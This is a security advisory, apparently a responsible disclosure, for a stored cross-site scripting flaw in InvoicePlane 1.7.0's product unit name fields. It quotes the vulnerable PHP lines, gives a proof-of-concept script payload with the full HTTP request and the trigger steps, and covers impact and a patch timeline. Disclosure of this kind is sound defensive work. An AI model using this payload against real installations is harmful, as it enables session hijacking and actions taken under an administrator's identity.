


# CVE-2026-25596 — Stored XSS via Product Unit Name in InvoicePlane 1.7.0

**Vulnerability:** Stored Cross-Site Scripting (XSS) via Product Unit Name field

**Product:** [InvoicePlane](https://invoiceplane.com)

**Affected Version:** 1.7.0 (and likely prior versions)

**Severity:** Medium

**CVSS 3.1 Score:** 4.8 (`CVSS:3.1/AV:N/AC:L/PR:H/UI:R/S:C/C:L/I:L/A:N`)

**CWE:** CWE-79: Improper Neutralization of Input During Web Page Generation

**Discovered by:** Leonidas Agathos

**Report Date:** 2026-01-31

---

## Description

The `unit_name` and `unit_name_plrl` fields in the product unit form (`/index.php/units/form`) accept arbitrary input without sanitization. The values are stored and rendered unencoded in the invoice item list when viewing any invoice that contains a product using the malicious unit.

**Vulnerable files:**

- `application/modules/invoices/views/partial_itemlist_table.php:127`
- `application/modules/invoices/views/partial_itemlist_responsive.php:71`

```php
// partial_itemlist_table.php - Line 127
<?php echo $unit->unit_name . '/' . $unit->unit_name_plrl; ?>

// partial_itemlist_responsive.php - Line 71
<?php echo $unit->unit_name . '/' . $unit->unit_name_plrl; ?>
```

---

## Proof of Concept

**Step 1 — Inject payload into Unit Name**

Navigate to `/index.php/units/form` and submit the following as the Unit Name:

```
<script>alert("XSS in Product Unit")</script>
```

**Request:**

```http
POST /index.php/units/form/1 HTTP/1.1
Host: 172.25.0.12
Content-Type: application/x-www-form-urlencoded

_ip_csrf=...&btn_submit=1&is_update=1&unit_name=%3Cscript%3Ealert%28%22XSS+in+Product+Unit%22%29%3C%2Fscript%3E&unit_name_plrl=tests
```



**Step 2 — Trigger XSS**

1. Create a product using the malicious unit
2. Add that product to any invoice
3. Navigate to `/index.php/products/form/1` or view any invoice containing the product

The payload fires when the item list renders.



---

## Impact

The payload executes in the browser of any admin who views an invoice or product page that includes the malicious unit. This enables session hijacking (if cookies are not HttpOnly), CSRF token theft, and actions performed under the victim's identity.

---

## Timeline

| Date | Event |
|------|-------|
| 2026-01-30 | Vulnerability discovered |
| 2026-01-31 | Proof of concept developed |
| 2026-01-31 | Vendor notified |
| 2026-02-04 | Vendor acknowledgment |
| 2026-02-04 | Patch released |
| 2026-02-05 | Public disclosure |

---

## References

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html)
- [OWASP: Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
- [CVE-2026-25596](https://nvd.nist.gov/vuln/detail/CVE-2026-25596)

---

## Disclaimer

This vulnerability was discovered during independent security research. All information is provided strictly for educational, research, and defensive purposes to assist the vendor and the security community in understanding and remediating the issue. Any malicious use of this information is strictly prohibited.
